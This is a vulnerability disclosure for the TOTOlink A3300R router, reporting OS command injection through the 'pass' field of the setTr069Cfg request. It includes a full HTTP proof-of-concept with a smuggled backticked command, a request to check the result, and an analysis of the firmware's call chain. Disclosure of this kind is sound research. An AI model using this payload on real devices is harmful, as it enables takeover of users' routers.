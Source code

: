 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
Yangyi
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setTr069Cfg` request,`pass` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=F30C610BF2E2EC8B HTTP/1.1
Host: itotolink.net
Content-Length: 303
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"addEffect":"0","enable":"1","url":"192.168.123.234","user":"123","pass":"123`ls>/web/678.txt`","informEnable":"0","interval":"","stunEnable":"1","stunServerAddr":"192.168.123.234","stunPort":"4343","stunMaxAlive":"3600","stunMinAlive":"30","stun_user":"123","stun_pass":"123","topicurl":"setTr069Cfg"}
```

injection the command "ls>/web/678.txt"

![image-20240109131637580](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109131637580.png)

check the result.

```
GET /678.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109133424560](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109133424560.png)

## Analysis

sub_4100F0 will handle the `setTr069Cfg` request. sub_4100F0 get `pass` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109133328195](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109133328195.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131330610.png)
